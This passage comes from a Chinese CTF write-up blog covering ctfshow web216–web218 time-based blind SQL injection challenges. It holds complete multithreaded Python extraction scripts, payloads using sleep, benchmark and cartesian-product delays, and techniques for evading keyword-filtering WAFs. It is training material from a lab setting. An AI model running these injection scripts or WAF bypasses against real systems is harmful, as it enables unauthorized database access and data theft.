GetData2(url,payload=&quot;&#x27;||if(mid((&quot;+payload2+&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,sleep(3),1)||&#x27;&quot;,flagStrDict=flagStrDict1,timeout=5)</span></span><br><span class="line">        GetData2(url,flag=<span class="string">&#x27;ctfshow&#123;&#x27;</span>,start=<span class="number">9</span>,end=<span class="number">55</span>,payload=<span class="string">&quot;&#x27;||if(mid((&quot;</span>+payload3+<span class="string">&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,sleep(5),1)||&#x27;&quot;</span>,flagStrDict=flagStrDict2,timeout=<span class="number">5</span>)</span><br><span class="line"></span><br><span class="line">    web215()</span><br><span class="line"></span><br></pre></td></tr></table></figure>


<h1 id="web216"><a href="#web216" class="headerlink" title="web216"></a>web216</h1><h2 id="原始信息-124"><a href="#原始信息-124" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">where id = <span class="title function_ invoke__">from_base64</span>(<span class="variable">$id</span>);</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//屏蔽危险分子</span></span><br></pre></td></tr></table></figure>

<h2 id="解题-119"><a href="#解题-119" class="headerlink" title="解题"></a>解题</h2><p>照搬上一题脚本，修改未多线程爆破：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment"># coding=utf-8</span></span><br><span class="line"><span class="keyword">import</span> requests,threading,time,concurrent.futures</span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">多线程爆破脚本</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">哈哈哈哈！开始起飞！</span></span><br><span class="line"><span class="string">总算不用那么慢的盲注了！</span></span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">send_request</span>(<span class="params">url,headers,data,timeout,strs</span>):</span><br><span class="line">    <span class="keyword">try</span>:</span><br><span class="line">        req = requests.post(url=url, headers=headers, data=data, timeout=timeout)</span><br><span class="line">        time.sleep(<span class="number">0.3</span>)</span><br><span class="line">    <span class="keyword">except</span> Exception <span class="keyword">as</span> e:</span><br><span class="line">        <span class="keyword">return</span> strs</span><br><span class="line">    <span class="keyword">return</span> <span class="string">&quot;&quot;</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">GetData3</span>(<span class="params">url,payload,flagStrDict,flag=<span class="string">&quot;&quot;</span>,timeout=<span class="number">3</span>,start=<span class="number">1</span>,end=<span class="number">50</span>,threadNum=<span class="number">3</span></span>):</span><br><span class="line">    urls = url + <span class="string">&quot;api/&quot;</span></span><br><span class="line">    headers = &#123;</span><br><span class="line">        <span class="string">&quot;Content-Type&quot;</span>: <span class="string">&quot;application/x-www-form-urlencoded;charset=UTF-8&quot;</span>,</span><br><span class="line">        <span class="string">&quot;User-Agent&quot;</span>: <span class="string">&quot;Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept&quot;</span>: <span class="string">&quot;application/json, text/javascript, */*; q=0.01&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Language&quot;</span>: <span class="string">&quot;zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Encoding&quot;</span>: <span class="string">&quot;gzip, deflate&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Connection&quot;</span>: <span class="string">&quot;keep-alive&quot;</span>,</span><br><span class="line">        <span class="string">&quot;X-Requested-With&quot;</span>: <span class="string">&quot;XMLHttpRequest&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Origin&quot;</span>: url,</span><br><span class="line">        <span class="string">&quot;Referer&quot;</span>: url,</span><br><span class="line">        <span class="string">&quot;Cookie&quot;</span>: <span class="string">&quot;PHPSESSID=jq29mbfflirbma38u1sr7u5i3f&quot;</span>,</span><br><span class="line">    &#125;</span><br><span class="line">    allList = []</span><br><span class="line">    flagStr = <span class="string">&#x27;&#x27;</span></span><br><span class="line">    <span class="keyword">for</span> index <span class="keyword">in</span> <span class="built_in">range</span>(start,end):</span><br><span class="line">        dataList = [[&#123;<span class="string">&#x27;ip&#x27;</span>: payload.<span class="built_in">format</span>(index, strsDict), <span class="string">&#x27;debug&#x27;</span>: <span class="number">1</span>&#125;,<span class="string">f&quot;<span class="subst">&#123;index&#125;</span>:<span class="subst">&#123;strsDict&#125;</span>&quot;</span>] <span class="keyword">for</span> strsDict <span class="keyword">in</span> flagStrDict]</span><br><span class="line">        <span class="keyword">with</span> concurrent.futures.ThreadPoolExecutor(max_workers=threadNum) <span class="keyword">as</span> executor:</span><br><span class="line">            tasks = []</span><br><span class="line">            <span class="keyword">for</span> data <span class="keyword">in</span> dataList:</span><br><span class="line">                task = executor.submit(send_request, urls,headers,data[<span class="number">0</span>],timeout,data[<span class="number">1</span>])</span><br><span class="line">                tasks.append(task)</span><br><span class="line"></span><br><span class="line">            <span class="comment"># 处理返回结果</span></span><br><span class="line">            results = []</span><br><span class="line"></span><br><span class="line">            <span class="keyword">for</span> task <span class="keyword">in</span> tasks:</span><br><span class="line">                result = task.result()</span><br><span class="line">                <span class="keyword">if</span> result:</span><br><span class="line">                    flagStr += (result.split(<span class="string">&#x27;:&#x27;</span>))[<span class="number">1</span>]</span><br><span class="line">                    results.append(result)</span><br><span class="line">        <span class="keyword">if</span> results:</span><br><span class="line">            allList.append(results)</span><br><span class="line">        <span class="keyword">else</span>:</span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line">        <span class="built_in">print</span>(flagStr)</span><br><span class="line">    string = flag</span><br><span class="line">    <span class="keyword">for</span> i <span class="keyword">in</span> allList:</span><br><span class="line">        <span class="keyword">if</span> i!=[] <span class="keyword">or</span> i!=[[]] <span class="keyword">or</span> <span class="built_in">bool</span>(i):</span><br><span class="line">            string += (i[<span class="number">0</span>].split(<span class="string">&#x27;:&#x27;</span>))[-<span class="number">1</span>]</span><br><span class="line">    <span class="built_in">print</span>(<span class="string">&#x27;flag: &#x27;</span>,string)</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> __name__ == <span class="string">&quot;__main__&quot;</span>:</span><br><span class="line">    <span class="comment"># find database/tables/columns</span></span><br><span class="line">    flagStrDict1 = <span class="string">&quot;ctfshow,_0123456789abdegijklmnpqruvxyz&quot;</span></span><br><span class="line">    <span class="comment"># find flag</span></span><br><span class="line">    flagStrDict2 = <span class="string">&quot;-0123456789abdectfshowgijklmnpqruvxyz&#125;&#123;,_&quot;</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line">    <span class="keyword">def</span> <span class="title function_">web216</span>():</span><br><span class="line">        url = <span class="string">&quot;http://8c908286-df0a-42c6-8fe7-c94445d8f432.challenge.ctf.show/&quot;</span></span><br><span class="line">        payload1 = <span class="string">&quot;select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())&quot;</span></span><br><span class="line">        payload2 = <span class="string">&quot;select(group_concat(column_name))from(information_schema.columns)where(table_name=&#x27;ctfshow_flagxcc&#x27;)&quot;</span></span><br><span class="line">        payload3 = <span class="string">&quot;select(group_concat(flagaac))from(ctfshow_flagxcc)&quot;</span></span><br><span class="line">        <span class="comment"># ctfshow_flagxcc,ctfshow_info</span></span><br><span class="line">        <span class="comment"># GetData3(url,payload=&quot;to_base64(&#123;&#125;)&quot;.format(&quot;if(mid((&quot;+payload1+&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,sleep(5),1)&quot;),flagStrDict=flagStrDict1,timeout=5)</span></span><br><span class="line">        <span class="comment"># id,flagaac,info</span></span><br><span class="line">        <span class="comment"># GetData3(url,payload=&quot;to_base64(&#123;&#125;)&quot;.format(&quot;if(mid((&quot;+payload2+&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,sleep(5),1)&quot;),flagStrDict=flagStrDict1,timeout=5)</span></span><br><span class="line">        GetData3(url, flag=<span class="string">&#x27;ctfshow&#123;&#x27;</span>, start=<span class="number">9</span>, end=<span class="number">55</span>,payload=<span class="string">&quot;to_base64(&#123;&#125;)&quot;</span>.<span class="built_in">format</span>(<span class="string">&quot;if(mid((&quot;</span>+payload3+<span class="string">&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,sleep(5),1)&quot;</span>), flagStrDict=flagStrDict2, timeout=<span class="number">5</span>)</span><br><span class="line"></span><br><span class="line">    web216()</span><br><span class="line"></span><br><span class="line"></span><br></pre></td></tr></table></figure>

<p>payload部分在于：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="keyword">def</span> <span class="title function_">web216</span>():</span><br><span class="line">    url = <span class="string">&quot;http://8c908286-df0a-42c6-8fe7-c94445d8f432.challenge.ctf.show/&quot;</span></span><br><span class="line">    payload1 = <span class="string">&quot;select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())&quot;</span></span><br><span class="line">    payload2 = <span class="string">&quot;select(group_concat(column_name))from(information_schema.columns)where(table_name=&#x27;ctfshow_flagxcc&#x27;)&quot;</span></span><br><span class="line">    payload3 = <span class="string">&quot;select(group_concat(flagaac))from(ctfshow_flagxcc)&quot;</span></span><br><span class="line">    <span class="comment"># ctfshow_flagxcc,ctfshow_info</span></span><br><span class="line">    <span class="comment"># GetData3(url,payload=&quot;to_base64(&#123;&#125;)&quot;.format(&quot;if(mid((&quot;+payload1+&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,sleep(5),1)&quot;),flagStrDict=flagStrDict1,timeout=5)</span></span><br><span class="line">    <span class="comment"># id,flagaac,info</span></span><br><span class="line">    <span class="comment"># GetData3(url,payload=&quot;to_base64(&#123;&#125;)&quot;.format(&quot;if(mid((&quot;+payload2+&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,sleep(5),1)&quot;),flagStrDict=flagStrDict1,timeout=5)</span></span><br><span class="line">    GetData3(url, flag=<span class="string">&#x27;ctfshow&#123;&#x27;</span>, start=<span class="number">9</span>, end=<span class="number">55</span>,payload=<span class="string">&quot;to_base64(&#123;&#125;)&quot;</span>.<span class="built_in">format</span>(<span class="string">&quot;if(mid((&quot;</span>+payload3+<span class="string">&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,sleep(5),1)&quot;</span>), flagStrDict=flagStrDict2, timeout=<span class="number">5</span>)</span><br></pre></td></tr></table></figure>

<p>其中，要注意点在于：网络不好就没必要跑脚本了，因为实在……太依赖网络状态了。。。</p>
<p>半夜开了5G测试，一直出错误。同一个payload放BP跑了不到五分钟就全出来了，我……</p>
<h1 id="web217"><a href="#web217" class="headerlink" title="web217"></a>web217</h1><h2 id="原始信息-125"><a href="#原始信息-125" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">where id = (<span class="variable">$id</span>);</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//屏蔽危险分子</span></span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/sleep/i&#x27;</span>,<span class="variable">$str</span>);</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<h2 id="解题-120"><a href="#解题-120" class="headerlink" title="解题"></a>解题</h2><p>这个题目过滤了 <code>sleep</code> ，导致常用延时注入函数被过滤。这里对 <code>sleep</code> 的平替方案为：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="keyword">select</span> sleep(<span class="number">3</span>):</span><br><span class="line"># 平替为：</span><br><span class="line"><span class="keyword">select</span> benchmark(<span class="number">3500000</span>,md5(<span class="string">&#x27;www&#x27;</span>));</span><br></pre></td></tr></table></figure>

<p>具体的平替时间是测试出来的，使用 <code>Burp</code> 抓包出来进行平替测试即可。</p>
<p>具体测试方案就是：设置 <code>3s</code> 延迟，让后放上这种句子进行测试：<code>ip=if(1,benchmark(3500000,md5(&#39;www&#39;)),1)&amp;debug=1</code> .</p>
<p></p>
<p>脚本如下，注意网络环境对延时注入的影响。</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment"># coding=utf-8</span></span><br><span class="line"><span class="keyword">import</span> requests,time,concurrent.futures</span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">多线程爆破脚本</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">哈哈哈哈！开始起飞！</span></span><br><span class="line"><span class="string">总算不用那么慢的盲注了！</span></span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">send_request</span>(<span class="params">url,headers,data,timeout,strs</span>):</span><br><span class="line">    <span class="keyword">try</span>:</span><br><span class="line">        req = requests.post(url=url, headers=headers, data=data, timeout=timeout)</span><br><span class="line">        time.sleep(<span class="number">0.3</span>)</span><br><span class="line">    <span class="keyword">except</span> Exception <span class="keyword">as</span> e:</span><br><span class="line">        <span class="keyword">return</span> strs</span><br><span class="line">    <span class="keyword">return</span> <span class="string">&quot;&quot;</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">GetData3</span>(<span class="params">url,payload,flagStrDict,flag=<span class="string">&quot;&quot;</span>,timeout=<span class="number">3</span>,start=<span class="number">1</span>,end=<span class="number">50</span>,threadNum=<span class="number">5</span></span>):</span><br><span class="line">    urls = url + <span class="string">&quot;api/&quot;</span></span><br><span class="line">    headers = &#123;</span><br><span class="line">        <span class="string">&quot;Content-Type&quot;</span>: <span class="string">&quot;application/x-www-form-urlencoded;charset=UTF-8&quot;</span>,</span><br><span class="line">        <span class="string">&quot;User-Agent&quot;</span>: <span class="string">&quot;Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept&quot;</span>: <span class="string">&quot;application/json, text/javascript, */*; q=0.01&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Language&quot;</span>: <span class="string">&quot;zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Encoding&quot;</span>: <span class="string">&quot;gzip, deflate&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Connection&quot;</span>: <span class="string">&quot;keep-alive&quot;</span>,</span><br><span class="line">        <span class="string">&quot;X-Requested-With&quot;</span>: <span class="string">&quot;XMLHttpRequest&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Origin&quot;</span>: url,</span><br><span class="line">        <span class="string">&quot;Referer&quot;</span>: url,</span><br><span class="line">        <span class="string">&quot;Cookie&quot;</span>: <span class="string">&quot;PHPSESSID=jq29mbfflirbma38u1sr7u5i3f&quot;</span>,</span><br><span class="line">    &#125;</span><br><span class="line">    allList = []</span><br><span class="line">    flagStr = flag</span><br><span class="line">    <span class="keyword">for</span> index <span class="keyword">in</span> <span class="built_in">range</span>(start,end):</span><br><span class="line">        dataList = [[&#123;<span class="string">&#x27;ip&#x27;</span>: payload.<span class="built_in">format</span>(index, strsDict), <span class="string">&#x27;debug&#x27;</span>: <span class="number">1</span>&#125;,<span class="string">f&quot;<span class="subst">&#123;index&#125;</span>:<span class="subst">&#123;strsDict&#125;</span>&quot;</span>] <span class="keyword">for</span> strsDict <span class="keyword">in</span> flagStrDict]</span><br><span class="line">        <span class="keyword">with</span> concurrent.futures.ThreadPoolExecutor(max_workers=threadNum) <span class="keyword">as</span> executor:</span><br><span class="line">            tasks = []</span><br><span class="line">            <span class="keyword">for</span> data <span class="keyword">in</span> dataList:</span><br><span class="line">                task = executor.submit(send_request, urls,headers,data[<span class="number">0</span>],timeout,data[<span class="number">1</span>])</span><br><span class="line">                tasks.append(task)</span><br><span class="line"></span><br><span class="line">            <span class="comment"># 处理返回结果</span></span><br><span class="line">            results = []</span><br><span class="line"></span><br><span class="line">            <span class="keyword">for</span> task <span class="keyword">in</span> tasks:</span><br><span class="line">                result = task.result()</span><br><span class="line">                <span class="keyword">if</span> result:</span><br><span class="line">                    flagStr += (result.split(<span class="string">&#x27;:&#x27;</span>))[<span class="number">1</span>]</span><br><span class="line">                    <span class="comment"># print([result],type(result))</span></span><br><span class="line">                    results.append(result)</span><br><span class="line">        <span class="keyword">if</span> results:</span><br><span class="line">            allList.append(results)</span><br><span class="line">        <span class="keyword">else</span>:</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">&quot;No results &#123;&#125;&quot;</span>.<span class="built_in">format</span>(index))</span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line">        <span class="built_in">print</span>(flagStr)</span><br><span class="line">    string = flag</span><br><span class="line">    <span class="keyword">for</span> i <span class="keyword">in</span> allList:</span><br><span class="line">        <span class="keyword">if</span> i!=[] <span class="keyword">or</span> i!=[[]] <span class="keyword">or</span> <span class="built_in">bool</span>(i):</span><br><span class="line">            string += (i[<span class="number">0</span>].split(<span class="string">&#x27;:&#x27;</span>))[-<span class="number">1</span>]</span><br><span class="line">    <span class="built_in">print</span>(<span class="string">&#x27;flag: &#x27;</span>,string)</span><br><span class="line">        <span class="comment"># t = threading.Thread(target=send_request,args=(urls,headers,data,timeout,flag,mid,i,payload))</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> __name__ == <span class="string">&quot;__main__&quot;</span>:</span><br><span class="line">    <span class="comment"># find database/tables/columns</span></span><br><span class="line">    flagStrDict1 = <span class="string">&quot;ctfshow,_0123456789abdegijklmnpqruvxyz&quot;</span></span><br><span class="line">    <span class="comment"># find flag</span></span><br><span class="line">    flagStrDict2 = <span class="string">&quot;-0123456789abdectfshowgijklmnpqruvxyz&#125;&#123;,_&quot;</span></span><br><span class="line"></span><br><span class="line">    <span class="keyword">def</span> <span class="title function_">web217</span>():</span><br><span class="line">        url = <span class="string">&quot;http://4afe2ce4-af43-46e5-a9c1-79b4b85cb45f.challenge.ctf.show/&quot;</span></span><br><span class="line">        payload1 = <span class="string">&quot;select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())&quot;</span></span><br><span class="line">        payload2 = <span class="string">&quot;select(group_concat(column_name))from(information_schema.columns)where(table_name=&#x27;ctfshow_flagxccb&#x27;)&quot;</span></span><br><span class="line">        payload3 = <span class="string">&quot;select(group_concat(flagaabc))from(ctfshow_flagxccb)&quot;</span></span><br><span class="line">        <span class="comment"># ctfshow_flagxccb,ctfshow_info</span></span><br><span class="line">        <span class="comment"># GetData3(url,payload=&quot;&#123;&#125;&quot;.format(&quot;if(mid((&quot;+payload1+&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,benchmark(3500000,md5(&#x27;www&#x27;)),1)&quot;),flagStrDict=flagStrDict1,timeout=5)</span></span><br><span class="line">        <span class="comment"># id,flagaabc,info</span></span><br><span class="line">        <span class="comment"># GetData3(url,flag=&#x27;id,flag&#x27;,start=8,payload=&quot;&#123;&#125;&quot;.format(&quot;if(mid((&quot;+payload2+&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,benchmark(3500000,md5(&#x27;www&#x27;)),1)&quot;),flagStrDict=flagStrDict1,timeout=5)</span></span><br><span class="line">        GetData3(url, flag=<span class="string">&#x27;ctfshow&#123;&#x27;</span>, start=<span class="number">9</span>, end=<span class="number">55</span>,payload=<span class="string">&quot;&#123;&#125;&quot;</span>.<span class="built_in">format</span>(<span class="string">&quot;if(mid((&quot;</span>+payload3+<span class="string">&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,benchmark(3500000,md5(&#x27;www&#x27;)),1)&quot;</span>), flagStrDict=flagStrDict2, timeout=<span class="number">5</span>)</span><br><span class="line"></span><br><span class="line">    web217()</span><br></pre></td></tr></table></figure>


<h1 id="web218"><a href="#web218" class="headerlink" title="web218"></a>web218</h1><h2 id="原始信息-126"><a href="#原始信息-126" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">where id = (<span class="variable">$id</span>);</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//屏蔽危险分子</span></span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/sleep|benchmark/i&#x27;</span>,<span class="variable">$str</span>);</span><br><span class="line">&#125;   </span><br></pre></td></tr></table></figure>

<h2 id="解题-121"><a href="#解题-121" class="headerlink" title="解题"></a>解题</h2><p>这过滤……又要寻找平替方案……</p>
<p>还有一个平替方案，利用大量的查询消耗时间：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">if(mid(<span class="number">1</span>,(<span class="keyword">SELECT</span> <span class="built_in">COUNT</span>(<span class="operator">*</span>) <span class="keyword">FROM</span> information_schema.tables a, information_schema.tables b, information_schema.tables c,information_schema.tables d),<span class="number">1</span>)</span><br></pre></td></tr></table></figure>

<p>其中的 <code>SELECT COUNT(*) FROM information_schema.tables a, information_schema.tables b, information_schema.tables c,information_schema.tables d</code> 便是起到平替作用的sql查询语句。（笛卡尔积）</p>
<p>如果是使用延迟2s的话，特别考验爆破者的网络环境。特别是这种情况下特别容易出现flag错误的情况。</p>
<blockquote>
<p>注意：这里的爆破延迟是1.7s，测试的具体方式是从Burp看回显时间测试出来的。</p>
<p>使用要求：</p>
<ol>
<li>测试者正常回显（非测试笛卡尔积）的情况下延迟在0到1s之间。</li>
<li>测试者测试笛卡尔积的时候延迟在1.7或者大于1.7的范围。</li>
</ol>
</blockquote>
<p>下面是脚本：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment"># coding=utf-8</span></span><br><span class="line"><span class="keyword">import</span> requests,time,concurrent.futures</span><br><span class="line"><span class="keyword">from</span> colorama <span class="keyword">import</span> Fore, Back, Style, init</span><br><span class="line">init()</span><br><span class="line"></span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">单线程爆破</span></span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">GetData2</span>(<span class="params">url,payload,flagStrDict,flag=<span class="string">&quot;&quot;</span>,timeout=<span class="number">3.0</span>,start=<span class="number">1</span>,end=<span class="number">50</span>,mode=<span class="number">1</span></span>):</span><br><span class="line">    <span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">    单线程爆破</span></span><br><span class="line"><span class="string">    :param url:目标url</span></span><br><span class="line"><span class="string">    :param payload:payload模板</span></span><br><span class="line"><span class="string">    :param flagStrDict:flag字典</span></span><br><span class="line"><span class="string">    :param flag:flag</span></span><br><span class="line"><span class="string">    :param timeout:超时时间</span></span><br><span class="line"><span class="string">    :param start:开始</span></span><br><span class="line"><span class="string">    :param end:结束</span></span><br><span class="line"><span class="string">    :param mode:模式</span></span><br><span class="line"><span class="string">    :return:</span></span><br><span class="line"><span class="string">    &quot;&quot;&quot;</span></span><br><span class="line">    urls = url + <span class="string">&quot;api/&quot;</span></span><br><span class="line">    headers = &#123;</span><br><span class="line">        <span class="string">&quot;Content-Type&quot;</span>: <span class="string">&quot;application/x-www-form-urlencoded;charset=UTF-8&quot;</span>,</span><br><span class="line">        <span class="string">&quot;User-Agent&quot;</span>: <span class="string">&quot;Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept&quot;</span>: <span class="string">&quot;application/json, text/javascript, */*; q=0.01&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Language&quot;</span>: <span class="string">&quot;zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Encoding&quot;</span>: <span class="string">&quot;gzip, deflate&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Connection&quot;</span>: <span class="string">&quot;keep-alive&quot;</span>,</span><br><span class="line">        <span class="string">&quot;X-Requested-With&quot;</span>: <span class="string">&quot;XMLHttpRequest&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Origin&quot;</span>: url,</span><br><span class="line">        <span class="string">&quot;Referer&quot;</span>: url,</span><br><span class="line">        <span class="string">&quot;Cookie&quot;</span>: <span class="string">&quot;PHPSESSID=jq29mbfflirbma38u1sr7u5i3f&quot;</span>,</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    thresholdNumber = <span class="number">3</span></span><br><span class="line">    <span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(start,end):</span><br><span class="line">        mf = <span class="number">0</span></span><br><span class="line">        <span class="keyword">for</span> mid <span class="keyword">in</span> flagStrDict:</span><br><span class="line"></span><br><span class="line">            data = &#123;</span><br><span class="line">                <span class="string">&quot;ip&quot;</span>:payload.<span class="built_in">format</span>(i,mid),</span><br><span class="line">                <span class="string">&quot;debug&quot;</span>:<span class="number">1</span></span><br><span class="line">            &#125;</span><br><span class="line">            t1 = time.time()</span><br><span class="line">            thresholds = <span class="number">0</span></span><br><span class="line"></span><br><span class="line">            <span class="comment"># 使用数据包阈值来过滤废包</span></span><br><span class="line">            <span class="comment"># 经过测试，当前网络环境当中延迟1.7是笛卡尔积的极限。具体测试方法是把数据包转发到BP当中，尝试使用笛卡尔积直接发数据测试极限时间</span></span><br><span class="line">            <span class="keyword">for</span> threshold <span class="keyword">in</span> <span class="built_in">range</span>(thresholdNumber):</span><br><span class="line">                <span class="keyword">try</span>:</span><br><span class="line">                    t = time.time()</span><br><span class="line">                    req = requests.post(url=urls, headers=headers, data=data,timeout=timeout)</span><br><span class="line">                    endTime = time.time() - t</span><br><span class="line">                    time.sleep(<span class="number">0.3</span>)</span><br><span class="line"></span><br><span class="line">                    <span class="built_in">print</span>(Style.BRIGHT+<span class="string">&#x27;find time&#x27;</span>,</span><br><span class="line">                          Style.RESET_ALL +<span class="string">f&quot;: <span class="subst">&#123;endTime:<span class="number">.3</span>f&#125;</span> s \t &quot;</span>,</span><br><span class="line">                          Style.BRIGHT+<span class="string">&#x27;and find payload&#x27;</span>,</span><br><span class="line">                          Style.RESET_ALL +<span class="string">f&quot;: <span class="subst">&#123;payload.<span class="built_in">format</span>(i,mid)&#125;</span>&quot;</span></span><br><span class="line">                          )</span><br><span class="line">                    <span class="comment"># print(req.content)</span></span><br><span class="line">                <span class="keyword">except</span> Exception <span class="keyword">as</span> e:</span><br><span class="line">                    thresholds += <span class="number">1</span></span><br><span class="line">                    <span class="built_in">print</span>(Fore.RED+<span class="string">&#x27;the number&#x27;</span>,Style.BRIGHT+<span class="string">f&quot;: <span class="subst">&#123;thresholds&#125;</span> &quot;</span>,Style.RESET_ALL + <span class="string">&quot;-&quot;</span>)</span><br><span class="line"></span><br><span class="line">            endTime = time.time() - t1</span><br><span class="line">            <span class="keyword">if</span> mode == <span class="number">1</span> <span class="keyword">and</span> thresholds == thresholdNumber:</span><br><span class="line">                flag += mid</span><br><span class="line">                <span class="comment"># print(f&quot;index: &#123;i&#125;\t all time:&#123;endTime:.3f&#125;\t flag:&#123;flag&#125;&quot;)</span></span><br><span class="line">                <span class="built_in">print</span>(<span class="string">f&quot;<span class="subst">&#123;Back.GREEN+<span class="string">&#x27;index&#x27;</span>&#125;</span>: <span class="subst">&#123;i&#125;</span>&quot;</span>,<span class="string">&quot;\t&quot;</span>,<span class="string">f&quot;<span class="subst">&#123;Back.GREEN+<span class="string">&#x27;all time&#x27;</span>&#125;</span>:&quot;</span>,Style.BRIGHT+<span class="string">f&quot;<span class="subst">&#123;endTime:<span class="number">.3</span>f&#125;</span>&quot;</span>,<span class="string">&quot;\t &quot;</span>,Back.GREEN+<span class="string">&#x27;flag&#x27;</span>,<span class="string">&quot;:&quot;</span>,Style.BRIGHT+<span class="string">f&#x27;<span class="subst">&#123;flag&#125;</span>&#x27;</span>,Style.RESET_ALL + <span class="string">&quot;-&quot;</span>)</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line">            <span class="keyword">elif</span> mode == <span class="number">2</span> <span class="keyword">and</span> thresholds == thresholdNumber:</span><br><span class="line">                flag += <span class="built_in">chr</span>(<span class="built_in">int</span>(mid,<span class="number">16</span>))</span><br><span class="line">                <span class="comment"># print(f&quot;&#123;Back.GREEN+&#x27;index&#x27;&#125;: &#123;i&#125;\t &#123;Back.GREEN+&#x27;all time&#x27;&#125;:&#123;endTime:.3f&#125;\t &#123;Back.GREEN+&#x27;flag&#x27;&#125;:&#123;Style.BRIGHT+&#x27;flag&#x27;&#125;&quot;,end=&#x27; &#x27;)</span></span><br><span class="line">                <span class="built_in">print</span>(<span class="string">f&quot;<span class="subst">&#123;Back.GREEN+<span class="string">&#x27;index&#x27;</span>&#125;</span>: <span class="subst">&#123;i&#125;</span>&quot;</span>,<span class="string">&quot;\t&quot;</span>,<span class="string">f&quot;<span class="subst">&#123;Back.GREEN+<span class="string">&#x27;all 